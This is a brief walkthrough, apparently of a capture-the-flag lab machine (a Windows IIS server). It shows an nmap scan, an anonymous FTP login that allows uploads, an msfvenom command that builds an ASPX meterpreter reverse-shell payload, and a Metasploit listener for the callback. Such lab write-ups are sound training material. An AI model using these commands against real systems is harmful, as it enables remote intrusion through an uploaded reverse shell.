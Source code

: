 ![devel](https://user-images.githubusercontent.com/66635295/176747179-515a7195-1782-4254-a173-23b18a86530a.png)

**RECON**
---
**IIS Server (Windows)**

![recon](https://user-images.githubusercontent.com/66635295/176748219-b064f388-d683-4c33-bb29-52c20d8961c2.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.5</pre>
-allports -version -Aggressive
Port 21 allows for anonymous FTP Login
![nmap](https://user-images.githubusercontent.com/66635295/176748164-8d9bc8c3-02b3-4001-9ead-c9a2e7b90d0e.png)

**ENUMERATION**
---
**FTP Login** 
<pre>User: anonymous</pre>
<pre>Pass: anonymous</pre>
The connection allows files to be uploaded
![ftp](https://user-images.githubusercontent.com/66635295/176749228-6da8577b-6f75-41f9-a2a1-9ec36a6cc287.png)

**Msfvenom Payload**
<pre> -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > ex aspx </pre>
![msf](https://user-images.githubusercontent.com/66635295/176749731-c01f10d3-5894-4363-ab9c-08b91a0c0d61.png)

**Metasploit Listner**
<pre>use exploit/multi/handler</pre>
<pre>set payload windows/meterpreter/reverse_tcp</pre>
<pre>set LHOST 10.10.14.9</pre>
![msf consoel](https://user-images.githubusercontent.com/66635295/176750030-1de89e38-2ce4-46b8-9934-5bf80018e2b5.png)
